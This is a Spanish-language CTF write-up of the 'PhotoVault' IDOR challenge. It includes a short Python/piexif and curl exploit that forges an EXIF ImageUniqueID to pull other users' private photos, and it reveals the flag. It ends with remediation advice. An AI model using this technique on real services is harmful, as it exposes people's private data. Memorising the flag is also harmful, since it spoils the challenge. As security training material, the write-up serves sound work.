

# PhotoVault

**Plataforma:** HackLab (SoftwareSeguro)

**Edición:** CTF AWS Student

**Categoría:** IDOR

**Puntaje:** 40 (el puntaje máximo de un desafío en la competencia fue 60)

**Herramientas:** curl, Python (piexif, Pillow)

## Enunciado

> **PhotoVault** es una startup que promete guardar tus fotos "a salvo y siempre en alta
> resolución". Su equipo asegura que las fotos privadas sólo las puede ver su dueño, y
> hasta el administrador confía tanto en la plataforma que guardó ahí una foto de algo que
> nunca debería salir de la empresa.
>
> Te contrataron para auditar la plataforma antes del lanzamiento. Creá una cuenta, usá el
> servicio como cualquier usuario y demostrá que una foto privada ajena no está tan a salvo
> como dicen. Para resolver el desafío debés obtener el código que se encuentra en la foto
> privada del administrador.
>
> *"No todo lo que viaja con una foto se ve a simple vista."*

## Reconocimiento

PhotoVault es una app Flask para guardar fotos. Tras registrarse (la plataforma exige
contraseña de 6+ caracteres) aparecen las rutas relevantes:

- **`/explorar`** — galería pública. Las fotos usan IDs numéricos: `/fotos/14`, `/fotos/23`, …
- **`/fotos/<id>/raw`** — versión mostrada (JPEG recomprimido, **sin** metadatos).
- **`/fotos/<id>/descargar`** — descarga el **original en alta resolución**.
- **`/herramientas/buscar-original`** — sube una copia recomprimida/recortada y la app te
  devuelve el original de tu biblioteca.

El acceso directo por ID está bien protegido: una foto privada ajena responde **403** ("No
tenés permiso para ver esta foto"), y una inexistente **404**. No hay IDOR en `/fotos/<id>`
ni en `/descargar`.

El dato clave está en `/ayuda` y en el EXIF de las descargas. La ayuda dice que las fotos
se guardan como originales y que *"las copias descargadas desde PhotoVault se identifican al
instante"*. Al descargar una pública y mirar su EXIF aparece el mecanismo de esa
identificación:

```
Exif 0xA420 ImageUniqueID = PV-ASSET-000014
Exif 0x9286 UserComment   = downloaded-by:<mi_usuario>
0th  0x13B  Artist        = admin
```

PhotoVault **inserta en cada descarga** un identificador secuencial `PV-ASSET-0000NN`. Y
"Buscar original" tiene dos modos:

- **Búsqueda visual** → filtra por *tu* biblioteca (falla con fotos ajenas).
- **Identificador de la copia** → lee el `ImageUniqueID` del EXIF y devuelve ese asset…
  **sin comprobar el dueño**.

Ahí está el IDOR: el identificador del objeto viaja dentro de un metadato que el cliente
controla.

## Explotación

### 1. Confirmar el modo "Identificador de la copia"

Subiendo a `/herramientas/buscar-original` una imagen que ya trae `PV-ASSET-000014` en el
EXIF, la app responde por ese modo y entrega el original — aunque la foto **no** sea mía:

```
Referencia:  PV-ASSET-000014
Coincidencia: Identificador de la copia
```

El match se resuelve por el ID del metadato, no por similitud visual ni por propiedad.

### 2. Forjar el identificador de una foto privada ajena

Basta con crear una imagen cualquiera cuyo EXIF `ImageUniqueID` (tag `0xA420`) apunte al
asset objetivo y subirla. Barriendo los IDs aparecen las fotos privadas de otros usuarios,
que por acceso directo daban 403:

```python
import piexif
from PIL import Image
Image.new("RGB", (64, 64), (0, 0, 0)).save("f.jpg", quality=85)
piexif.insert(piexif.dump({"Exif": {0xA420: b"PV-ASSET-000079"}}), "f.jpg")
```

```bash
curl -s -L -b cookies.txt -F "photo=@f.jpg;type=image/jpeg" \
  https://<instancia>.softwareseguro.com.ar/herramientas/buscar-original
```

Enumerando se identifica la foto del administrador:

```
PV-ASSET-000031  autor='Equipo PhotoVault'  album='Privado'  alt='wifi-oficina'
PV-ASSET-000079  autor='Equipo PhotoVault'  album='Privado'  alt='respaldo-codigo-recuperacion'  <-- objetivo
```

`PV-ASSET-000079` ("respaldo-codigo-recuperacion", álbum **Privado** del equipo) es la foto
del admin. El acceso directo lo confirma como ajeno:

```
/fotos/79           -> 403
/fotos/79/descargar -> 403
```

…pero "Buscar original" la entrega igual, embebida como `data:image/jpeg;base64,…`.

### 3. Leer el código de la foto

El enunciado avisa: *"No todo lo que viaja con una foto se ve a simple vista."* El original
recuperado no trae el código en los metadatos (solo JFIF): está **escrito en la propia
imagen**, un post-it fotografiado. Al abrirlo se lee directamente:



> **Cuenta maestra PhotoVault**
> Codigo de recuperacion (NO COMPARTIR):
> **d118a3448d3b02f9652a4af9663bade8**
> Guardar en caja fuerte - copia unica

El solver completo (registro, enumeración por IDOR y recuperación del original) está en
[`./solve.py`](./solve.py). El original recuperado quedó en
[`assets/foto-privada-admin.jpg`](assets/foto-privada-admin.jpg).

## Flag

```
d118a3448d3b02f9652a4af9663bade8
```

## 🛡️ Remediación (Developer Perspective)

- **Autorizar por sesión, no por el identificador que manda el cliente.** "Buscar original"
  resuelve el asset con un ID que viaja en el EXIF de la imagen subida y lo devuelve sin
  verificar que pertenezca al usuario autenticado. Todo acceso a un objeto debe comprobar la
  propiedad/permiso del lado del servidor, igual que ya hace `/fotos/<id>` (que responde
  403). Un identificador provisto por el cliente nunca es prueba de autorización.
- **No confiar en metadatos de archivos subidos.** El `ImageUniqueID` de una imagen que sube
  el usuario es dato no confiable y manipulable. Si se usa para desduplicar o reconocer
  copias, el resultado debe seguir filtrándose por la biblioteca del dueño, nunca servir de
  atajo que saltee el control de acceso.
- **IDs no predecibles.** Los assets secuenciales (`PV-ASSET-0000NN`) facilitan la
  enumeración. Usar identificadores opacos (UUID) reduce el alcance de un fallo de
  autorización, aunque no lo reemplaza.
- **Tratar la foto como contenido sensible.** Un secreto fotografiado (el post-it con el
  código maestro) queda expuesto apenas se filtra la imagen. La remediación de fondo es no
  guardar secretos en fotos y rotar el código de recuperación filtrado.
